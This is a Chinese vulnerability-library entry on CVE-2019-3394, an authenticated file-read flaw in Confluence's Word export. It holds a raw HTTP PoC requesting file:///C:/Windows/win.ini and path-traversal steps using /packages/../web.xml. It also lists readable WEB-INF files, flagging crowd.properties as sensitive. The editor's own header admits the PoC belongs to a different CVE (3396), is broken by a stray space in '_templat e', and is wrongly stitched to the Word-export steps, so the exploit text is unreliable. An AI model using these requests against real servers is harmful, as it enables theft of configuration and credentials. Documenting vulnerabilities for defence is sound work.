






# Confluence 3394导出Word文件读取

## 条目说明

- 对象与具体问题：Confluence；3394导出Word文件读取
- 版本、配置及部署条件：6.1–6.6.16等分支；WEB-INF边界
- 认证与权限前提：登录且空间添加页面权限
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 开头macro preview _template PoC属3396路线，且_tem plat e空格损坏，与后文导出Word3394错拼接
- 应删除/移出错配PoC并保留实际Word导出步骤和权限
- WEB-INF有限文件读不等于win.ini任意文件；图片尾重复残片，缺官方修复来源

## 操作风险

请求可能删除/覆盖数据、修改账号或持久改变业务状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

（CVE-2019-3394）Confluence 文件读取漏洞
========================================

一、漏洞简介
------------

> （CVE-2019-3394）Confluence 文件读取漏洞

二、影响范围
------------

-   6.1.0 \<= version \< 6.6.16

-   6.7.0 \<= version \< 6.13.7

-   6.14.0 \<= version \< 6.15.8

三、复现过程
------------

##### poc

```http
POST /rest/tinymce/1/macro/preview  HTTP/1.1
Host: localhost:8090
Content-Length: 175
Accept: text/plain, */*; q=0.01 
Origin: http://localhost:8090
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.120 Safari/537.36 
Content-Type: application/json; charset=UTF-8
Referer: http://localhost:8090/ 
Connection: close

{"contentId":"1","macro":{"name":"widget","params": {"url":"https://www.viddler.com/v/test","width":"1000","height":"1000","_templat e":"file:///C:/Windows/win.ini"},"body":""}}
```


##### 触发条件

1.  一个有效的登录账号

2.  该账号具有在空间「添加页面」的权限

##### 复现步骤

1.创建一个空白页

Confluence文件读取漏洞/media/rId27.png)

2.插入一张网络图片

image

Confluence文件读取漏洞/media/rId28.png)

> 插入url改为你需要查看的文件，例如 /packages/../web.xml

3.点击发布，抓取报文

4.删除多余url前缀,只留下 `/packages/../web.xml` 并放开报文

Confluence文件读取漏洞/media/rId29.png)

5.查看页面源码确认修改成功

Confluence文件读取漏洞/media/rId30.png)

6.导出word，并抓包查看

Confluence文件读取漏洞/media/rId31.png)

Confluence文件读取漏洞/media/rId32.png)

##### 路径说明

由于 `catalina.jar`中的
`org.apache.catalina.webresources.StandardRoot.class`的
getResource方法的 `validate`存在过滤和限制，所以可遍历路径均在
`/WEB-INF`下

可读取的文件大致如下

    #WEB-INF下
    decorators.xml
    glue-config.xml
    server-config.wsdd
    sitemesh.xml
    urlrewrite.xml
    web.xml
    #/WEB-INF/classes下
    confluence-filtered-frames.properties
    confluence-init.properties
    crowd.properties(较为重要)
    hash-registry.properties
    lgplTemplate.soy
    log4j-diagnostic.properties
    log4j.properties
    logging.properties
    mime.types
    osuser.xml
    seraph-config.xml
    seraph-paths.xml
    velocity_implicit.vm
    velocity.properties
